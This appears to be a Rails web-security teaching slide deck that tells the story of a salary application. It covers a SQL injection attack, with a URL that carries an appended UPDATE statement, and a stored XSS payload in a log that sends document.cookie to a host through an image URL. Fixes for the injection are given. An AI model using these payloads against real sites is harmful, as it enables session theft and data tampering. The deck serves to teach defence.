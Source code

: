 !SLIDE 
# Web Security With Rails #

!SLIDE bullets incremental
# The Application #

* Some guy is going nuts, he can not handle his company salaries and raises process.
* He contacts you and ask you to build a quite simple application

!SLIDE bullets incremental
# And you build it! #

* Awesome, the application works. Everyone is happy. That's it right?
 
!SLIDE bullets incremental
# Day 1 - Injection #

* Early morning call from your customer.
* One employe automagically raised his own salary and was fired... so fix it.

!SLIDE bullets incremental
#Did some research#

* You found that that user used an Injection attack. He modified the query string adding and update statement.
* Query: javascript:alert(escape('1; UPDATE salaries SET amount = 123456789 WHERE user_id = 3;'))
* GET /raises/1
* GET /users/1%3B%20UPDATE%20salaries%20SET%20amount%20%3D%20123456789%20WHERE%20user_id%20%3D%203%3B

!SLIDE bullets incremental small
#The fix#

* Previously had:
 * @user = User.find(:all, :conditions => "id = #{params[:id]}").first
* Now he have:
 * @user = User.find(params[:id])

!SLIDE bullets incremental
#Sanitize input#

* Use whitelist validation
* Use find, find_by 
 * If you need SQL fragments use:
  * An array of sanitized tainted strings
  * Pass a hash

!SLIDE bullets incremental
#Day 2 - Cross-Site Scripting(XSS)#

* Early morning call from your customer. Seems like somebody has been using his admin account.
* He lost control of the admin account.

!SLIDE bullets incremental
#access.log#

* access.log says 127.0.0.1 - - [19/Sep/2010:00:28:57 -0500] "GET / HTTP/1.1" 304 210 "http://localhost/****"

!SLIDE bullets incremental
#developer.log#

* Parameters: {"authenticity_token"=>"vCuopAoDRRfNocbJCBjjJscrAH+ABDAPkXeuHEBsoR0=", "utf8"=>"✓", "id"=>"3", "user"=>{"role_id"=>"3", "salary_attributes"=>{"amount"=>"123.0", "id"=>"3"}, "site"=>"<script>document.write('<img src=\"http://localhost/' + document.cookie + '\" >')</script>", "password"=>"[FILTERED]", "email"=>"employee@test.com"}}
* <script>document.write('<img src="http://localhost/' + document.cookie + '" >')</script>
